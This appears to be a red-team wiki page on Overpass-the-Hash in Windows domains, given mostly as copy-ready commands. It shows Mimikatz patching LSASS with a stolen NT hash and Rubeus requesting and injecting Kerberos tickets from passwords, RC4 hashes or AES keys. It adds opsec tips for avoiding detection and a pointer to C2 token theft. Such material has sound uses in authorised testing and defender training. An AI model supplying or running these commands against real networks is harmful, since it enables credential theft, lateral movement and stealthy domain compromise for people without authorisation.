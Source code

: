 # Overpass-the-Hash

- [https://unshade.tech/sacrificial-session](https://unshade.tech/sacrificial-session)




## Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), open the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```

{% hint style="warning" %}
It also work for local accounts but for the reason that patching LSASS does not change the security information or user information for this process, the new credentials in LSASS can correctly be used only for network authentication and not for identifying the local user account associated with the process. (paraphrased from [here](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/))

That's why for local accounts such options as `net use \\localhost\c$`, WMI calls or PsExec can be considered.
{% endhint %}




## Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (need elevated context):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#overpass-the-hash) instead of using `/show` option.
{% endhint %}

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

A more opsec safe approach is to use AES key (KeyType 0x12) instead of RC4-HMAC (KeyType 0x17) alongside with `/opsec` switch which instructs Rubeus not to do pre-auth (mimics standard Kerberos behavior):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /ptt /opsec
```
